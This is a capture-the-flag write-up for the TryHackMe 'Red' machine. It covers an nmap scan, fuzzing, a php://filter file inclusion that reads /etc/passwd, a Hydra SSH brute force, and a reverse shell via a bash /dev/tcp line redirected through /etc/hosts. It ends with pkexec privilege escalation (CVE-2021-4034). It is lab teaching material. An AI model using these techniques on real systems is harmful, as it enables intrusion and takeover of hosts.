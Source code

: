 ```yaml
---
title: "Red"
date: 2023-07-07 18:02:00 +0800
categories: [Writeups, TryHackMe]
tags: [cve, sudo, exifdata]
image:
  path: /banners/red.webp
---
```




> Description : A classic battle for the ages.
{: .prompt-info }



# Enumerations

Let's start with a quick Nmap scan.
### Nmap Scan


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-16 15:48 +01
Nmap scan report for 10.10.27.215
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```
It appears that there is an Apache2 web server running on port 80.
I have come across a parameter in the URL. Let's investigate it further by examining the following URL: 

```
"http://10.10.27.215/index.php?page=home.html".
```


Let's proceed with brute-forcing to discover potential files within this parameter.

```bash
ffuf -u http://10.10.27.215/index.php?page=FUZZ -w /usr/share/wordlists/dirb/common.txt -fw 1
```

```bash
index.php               [Status: 200, Size: 351, Words: 45, Lines: 18]
```
By visiting the provided endpoint, we have discovered a PHP code comment within the source code.

```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```
I successfully bypassed the PHP str_replace function by utilizing [php:///filter/resource=/etc/passwd](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```
It appears that there are three users: root, blue, and red.

I attempted to locate some logs for potential log poisoning, but unfortunately, I couldn't.

Finally, I have managed to obtain some valuable information.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/bbe20e0e-c133-4b98-a554-786782c1615c)

The user "blue" attempted to enhance the security of their password by implementing various rules. However, I was able to get access. 
I generated a password list and successfully performed a brute force attack on "blue"'s password using Hydra.


```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-16 16:16:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.27.215:22/
[22][ssh] host: 10.10.27.215   login: blue   password: [PASS]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-16 16:16:51
```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/df1d55df-fbc1-424a-be5e-496b96adc92a)

# Priv

I keep getting msg from the shell

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e84fab96-22fe-46b4-8a44-6096304e62e4)

And the password keeps changing every time the shell kicks me out.

Every time I receive a message, I start another shell to continue the process.


By running pspy64;

```toml
2023/07/16 15:25:57 CMD: UID=1001  PID=2685   | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```
I added my IP to /etc/hosts in order to obtain a reverse shell.

```bash
blue@red:/tmp$ echo 10.18.81.222 redrules.thm >> /etc/hosts
```

```bash

achux@Fs:~$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.27.215 33578
bash: cannot set terminal process group (2955): Inappropriate ioctl for device
bash: no job control in this shell
red@red:~$

```

```bash
red@red:~$ ll
total 36
drwxr-xr-x 4 root red  4096 Aug 17  2022 ./
drwxr-xr-x 4 root root 4096 Aug 14  2022 ../
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc
drwx------ 2 red  red  4096 Aug 14  2022 .cache/
-rw-r----- 1 root red    41 Aug 14  2022 flag2
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git/
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
```

`.git` weird folder!!


```bash
red@red:~/.git$ ll
total 40
drwxr-x--- 2 red  red   4096 Aug 14  2022 ./
drwxr-xr-x 4 root red   4096 Aug 17  2022 ../
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec*
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

I believe we can exploit that situation.

[💜 CVE-2021-4034](https://github.com/Almorabea/pkexec-exploit/blob/main/CVE-2021-4034.py)

Simply copying and pasting the exploit will not be sufficient to achieve our goal. 
We need to understand the exploit thoroughly and tailor it to the specific context in order to successfully exploit the vulnerability.

we need to change this part;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/461ff9c5-b4b3-48ec-9f22-1b866bdae411)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/76680a06-8b3c-4b84-8531-4989a8dc859d)

```bash


# whoami
root

```

Congratulations on successfully compromising the machine! Well done! If you need any further assistance in the future, feel free to reach out. Take care and goodbye! 💜

